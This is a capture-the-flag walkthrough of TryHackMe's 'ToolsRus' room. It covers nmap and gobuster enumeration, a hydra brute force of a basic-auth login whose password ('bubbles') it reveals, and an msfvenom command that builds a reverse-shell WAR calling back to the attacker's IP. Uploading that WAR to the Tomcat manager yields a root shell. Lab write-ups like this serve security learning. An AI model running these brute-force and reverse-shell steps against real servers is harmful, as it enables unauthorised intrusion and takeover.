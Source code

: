 # ToolsRus
**Date:** October  2022

**Author:** j.info

**Link:** [**ToolsRus**](https://tryhackme.com/room/toolsrus) CTF on TryHackMe

**TryHackMe Difficulty Rating:** Easy

<br>

![](images/toolsrus0.png)

<br>

## Objectives
- What directory can you find, that begins with a "g"?
- Whose name can you find from this directory?
- What directory has basic authentication?
- What is bob's password to the protected part of the website?
- What other port that serves a web service is open on the machine?
- Going to the service running on that port, what is the name and version of the software?
- How many documentation files did Nikto identify?
- What is the server version (run the scan against port 80)?
- What version of the Apache-Coyote is the service using?
- What user did you get a shell as?
- What text is in the file /root/flag.txt

<br>

## Initial Enumeration

### Nmap Scan

`sudo nmap -sV -sC -T4 $ip`

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
```

This answers question #8.

An additional all ports scan shows us:

```
PORT     STATE SERVICE VERSION
1234/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/7.0.88
|_http-server-header: Apache-Coyote/1.1
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
```

This answers question #5, #6, and #9.

<br>

### Gobuster Scan

`gobuster dir -u http://$ip -t 50 -r -x php,txt,html -w dir-med.txt`

```
/index.html           (Status: 200) [Size: 168]
/guidelines           (Status: 200) [Size: 51]
/protected            (Status: 401) [Size: 458]
```

This answers question #1.

<br>

## Website Digging

Visiting the main page:

![](images/toolsrus1.png)

Looking at /guidelines shows us:

![](images/toolsrus2.png)

This answers question #2.

Looking at /protected:

![](images/toolsrus3.png)

That answers question #3.

Looking at port 1234 shows us an unconfigured Apache Tomcat v7.0.88 server:

![](images/toolsrus4.png)

Running a gobuster scan on port 1234:

```
/host-manager         (Status: 401) [Size: 2098]
/manager              (Status: 401) [Size: 2536]
/docs                 (Status: 200) [Size: 19677]
/examples             (Status: 200) [Size: 1285]
```

/host-manager and /manager require a logi. I look around for default tomcat credentials and none of them work for either.

There isn't anything interesting in /docs or /examples.

I decide to try brute forcing the bob user we saw on the port 80 /protected page:

`hydra -l bob -P rockyou.txt $ip http-get /protected/`

![](images/toolsrus5.png)

That answers question #4.

We're able to login with that and see the following:

![](images/toolsrus6.png)

I login to the port 1234 /host-manager page and see:

![](images/toolsrus7.png)

After looking around the manager pages it looks like we can deploy our own to the server in WAR format:

![](images/toolsrus8.png)

I use msfvenom to create a reverse WAR shell:

`msfvenom -p java/shell_reverse_tcp LHOST=10.6.0.242 LPORT=4444 -f war -o shell.war`

I then choose browse, navigate to the shell.war file, and upload it. Clicking deploy starts it up for us:

![](images/toolsrus9.png)

<br>

## Root

Since the application is running and I didn't have my listener set up yet I click the stop button next to the application, start up a listener on my system, and then click the start button. This gives me a shell back as root:

![](images/toolsrus10.png)

That answers question #10.

NOTE: They ask us to use metasploit and you can use that to get a shell back like this:

![](images/toolsrus13.png)

![](images/toolsrus14.png)

That basically does exactly what we just manually did with msfvenom but gives a meterpreter shell instead.

Our shell is pretty terrible so I upgrade it:

![](images/toolsrus11.png)

And looking in /root shows us the flag we're looking for:

![](images/toolsrus12.png)

That answers the last question.

<br>

## Nikto

We still have one more question where it wants us to use Nikto to find some information on documentation files. I run it:

`nikto -h http://$ip:1234/manager/html -id "bob:bubbles"`

This takes quite awhile to complete, for me it was 34 minutes to be exact, and eventually comes back with our answer:

![](images/toolsrus15.png)

<br>

With that we've completed this CTF!

<br>

## Conclusion

A quick run down of what we covered in this CTF:

- Basic enumeration with **nmap** and **gobuster**
- Using **hydra** to brute force our way into a website login page
- Seeing that we can upload **WAR applications** to the website manager page and using **msfvenom** to create one and get a shell back
- Using **metasploit** to do the exact same thing
- Performing a vulnerability scan using **Nikto**

<br>

Many thanks to:
- **TryHackMe** for creating and hosting this CTF

<br>

You can visit them at: [**https://tryhackme.com**](https://tryhackme.com)
